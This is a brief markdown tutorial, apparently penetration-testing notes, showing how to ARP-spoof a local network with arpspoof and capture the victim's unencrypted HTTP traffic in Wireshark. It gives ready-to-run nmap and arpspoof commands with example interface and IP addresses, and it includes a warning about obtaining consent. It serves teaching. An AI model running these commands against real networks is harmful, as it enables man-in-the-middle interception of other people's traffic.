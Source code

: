 # ARP Spoofing

### Tools

arpspoof \(kali\) -- works by forging ARP replies to communicating parties

**Requirements**

arpspoof / dsniff

Wireshark

### Sniffing on a private network - Step by Step

Figure out the Default Gateway first by command:

\*\*terminal

\*\*\[prompt foo@joe\]\*\*\[path ~\]\*\*\[delimiter  $ \]\*\*\[command ./myscript\]



```
route -n
```

Narrow down the target by running \`nmap\` sweep

> Be sure to get written consent for any network scanning activities. Criminal penalties can be levied onto you if permission is not granted.

```
nmap [host-network]
```

To start ARP spoofing, run

```
sudo arpspoof -i [interfacename] -c host -t [target-ip] [default-gateway-ip]
```

e.g.

```
sudo arpspoof -i wlan0 -c host -t 192.168.1.122 192.168.1.1
```

arpspoof should now be sending arp replies to the gateway and target with spoofed addresses

Open Wireshark and apply the `tcp port http` to listen to unencrypted traffic between the router and the target.

```
tcp port http
```

Once done, stop the `arpspoof` process to depoison ARP tables in gateway and target.

```
> arpspoof
[Ctrl+C] to send SIGINT signal
```



